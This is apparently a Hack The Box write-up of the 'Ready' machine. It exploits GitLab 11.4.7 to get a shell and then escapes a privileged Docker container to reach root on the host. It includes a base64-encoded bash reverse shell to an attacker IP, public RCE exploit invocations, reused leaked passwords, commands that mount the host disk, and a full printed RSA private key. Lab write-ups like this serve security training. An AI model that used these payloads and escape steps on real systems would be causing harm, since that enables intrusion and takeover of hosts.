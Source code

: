 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag" 
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-ready/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/htb-writeup-ready/ready_logo.png)

A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag


## Portscan

```bash
❯ nmap -sCV -Pn -p22,5080 10.129.227.132 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.227.132:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gitlab


We don't have credentials to ssh. The webserver on port 5080 runs a Gitlab instance and the robots.txt reveals us different directories.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

There are no projects. What is the version of this instance? 

![](/assets/images/htb-writeup-ready/gitlab3.png)

Another way of find out the version is using the Rest API.
>Log in as any user, select the user icon in the upper right of the screen. Select Settings ==> Access Tokens. Create a personal access token and copy it to your clipboard.
>In a Linux shell, use curl to access the GitLab version
```bash
❯ curl --header "PRIVATE-TOKEN: personal-access-token" your-gitlab-url/api/v4/version
```
>![](/assets/images/htb-writeup-ready/gitlab4.png)
```bash
❯ curl --header "PRIVATE-TOKEN: HXmTosC6DzLDSYQxzvic" 10.129.227.132:5080/api/v4/version | jq '.["version"]'
{"version":"11.4.7"}
```

Now, we have some ways to gain a shell.

Is there any exploit in searchsploit?
```bash
❯ searchsploit gitlab 11.4.7
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                        | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)      | ruby/webapps/49257.py
```
1. First, let's try the 49257.py changing some variables. The **authenticity_token** is in the source code and the cookie in Developer Tools ==> Storage.
```bash
username='m1l0js'
authenticity_token='4CF1R6b+nvrF3iLVLeGav92Pr6A6QRP2YK0H1+bX9eEpXkubVBpv5azKpfPMysTw6zHNw7AD+xrQ4VtGjXMQRg=='
cookie = '_gitlab_session=34931d1f746491d74a00a4e2a9da29c9; sidebar_collapsed=false'
localport='4126'
localip='10.10.14.72'
url = "http://10.129.227.132:5080"
```
2. Using the other exploit listening in our machine
```bash
❯ python3 49334.py -g http://10.129.227.132 -u m1l0js -p m1l0js123. -l 10.10.14.72 -P 4127
[+] authenticity_token: ME7qmx/qNylY2Vqre+i9CK+oTA+Np0BOZdnnYC8Ggi7QnVyzO42XExPncGEfe5nDP+YDTqUbZpIiyITdczjXQA==
[+] Creating project with random name: project3122
[+] Running Exploit
[+] Exploit completed successfully!
```
3. Searching what has changed in these release. 
>1. Go to [Gitlab releases](https://gitlab.com/gitlab-org/gitlab/-/commits/master)
>2. Date?  ![](/assets/images/htb-writeup-ready/gitlab6.png)
>3. Looking many resources.
In this [github](https://github.com/jas502n/gitlab-SSRF-redis-RCE), there are very useful information. Try to understand it looking in other sites [live overflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) or [infosec](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b)) 
![](/assets/images/htb-writeup-ready/gitlab7.png)
It seems that is not working, maybe we need to use base64. Note that it is necessary add a space wherever you want in the command to encoded correctly.
```bash
❯ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Mi81NTU1IDA+JjEn
❯ echo -n "bash -c ' bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzIvNTU1NSAwPiYxJw==
```
How can we know if this works? Test it locally. Listen in this port and see if it works.
Let's modify our previous test and gain a shell.
![](/assets/images/htb-writeup-ready/gitlab8.png)


## Privesc

We could enumerate with [deepce](https://github.com/stealthcopter/deepce) or [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). We find in __/opt/backup/gitlab.rb__ file with some SMTP credentials for the gitlab application. 

```bash
cat /opt/backup/gitlab.rb | grep "pass"
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside it.

```bash
git@gitlab:/opt/backup$ su -
Password: wW59U!ZKMbG9+*#h
root@gitlab:~# 
```
We have gained root access but we are in a container. Check the IP and the __/opt/backup/docker-compose.yml__
```bash
root@gitlab:~# hostname -I
172.19.0.2 
```
```bash
root@gitlab:/opt/backup# cat docker-compose.yml 
    privileged: true
```
We can escape from the container for this parameter configured. Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.
```bash
root@gitlab:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         9.3G  7.7G  1.6G  84% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       9.3G  7.7G  1.6G  84% /root_pass
shm              64M  672K   64M   2% /dev/shm
root@gitlab:/# ls /mnt
root@gitlab:/# mkdir /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# mount /dev/sda2 /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# cd /mnt/sda2FromHostMachineToEscapeTheContainer/
```

To get a proper shell in the host OS we can use the SSH key in the root's .ssh directoy

```bash
root@gitlab:/mnt/loquesea/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
6KkYjWv+9kj9shzPaN1tNQLc2Rg39pn1mteyvUi2pBfA4ItE05F58WpCgh9KNMlf
YmlPwjeRaqARlkkCgFcHFGyVxd6Rh4ZHNFjABd8JIl+Yaq/pg7t4qPhsiFsMwntX
TBKGe8T4lzyboBNHOh5yUAI3a3Dx3MdoY+qXS/qatKS2Qgh0Ram2LLFxib9hR49W
rG87jLNt/6s06z+Mwf7d/oN8SmCiJx3xHgFzbwIDAQABAoIBACeFZC4uuSbtv011
YqHm9TqSH5BcKPLoMO5YVA/dhmz7xErbzfYg9fJUxXaIWyCIGAMpXoPlJ90GbGof
Ar6pDgw8+RtdFVwtB/BsSipN2PrU/2kcVApgsyfBtQNb0b85/5NRe9tizR/Axwkf
iUxK3bQOTVwdYQ3LHR6US96iNj/KNru1E8WXcsii5F7JiNG8CNgQx3dzve3Jzw5+
lg5bKkywJcG1r4CU/XV7CJH2SEUTmtoEp5LpiA2Bmx9A2ep4AwNr7bd2sBr6x4ab
VYYvjQlf79/ANRXUUxMTJ6w4ov572Sp41gA9bmwI/Er2uLTVQ4OEbpLoXDUDC1Cu
K4ku7QECgYEA5G3RqH9ptsouNmg2H5xGZbG5oSpyYhFVsDad2E4y1BIZSxMayMXL
g7vSV+D/almaACHJgSIrBjY8ZhGMd+kbloPJLRKA9ob8rfxzUvPEWAW81vNqBBi2
3hO044mOPeiqsHM/+RQOW240EszoYKXKqOxzq/SK4bpRtjHsidSJo4ECgYEA1jzy
n20X43ybDMrxFdVDbaA8eo+og6zUqx8IlL7czpMBfzg5NLlYcjRa6Li6Sy8KNbE8
kRznKWApgLnzTkvupk/oYSijSliLHifiVkrtEY0nAtlbGlgmbwnW15lwV+d3Ixi1
KNwMyG+HHZqChNkFtXiyoFaDdNeuoTeAyyfwzu8CgYAo4L40ORjh7Sx38A4/eeff
Kv7dKItvoUqETkHRA6105ghAtxqD82GIIYRy1YDft0kn3OQCh+rLIcmNOna4vq6B
MPQ/bKBHfcCaIiNBJP5uAhjZHpZKRWH0O/KTBXq++XQSP42jNUOceQw4kRLEuOab
dDT/ALQZ0Q3uXODHiZFYAQKBgBBPEXU7e88QhEkkBdhQpNJqmVAHMZ/cf1ALi76v
DOYY4MtLf2dZGLeQ7r66mUvx58gQlvjBB4Pp0x7+iNwUAbXdbWZADrYxKV4BUUSa
bZOheC/KVhoaTcq0KAu/nYLDlxkv31Kd9ccoXlPNmFP+pWWcK5TzIQy7Aos5S2+r
ubQ3AoGBAIvvz5yYJBFJshQbVNY4vp55uzRbKZmlJDvy79MaRHdz+eHry97WhPOv
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

```bash
ssh -i id_rsa.pem root@10.129.227.132
root@ready:~#
```
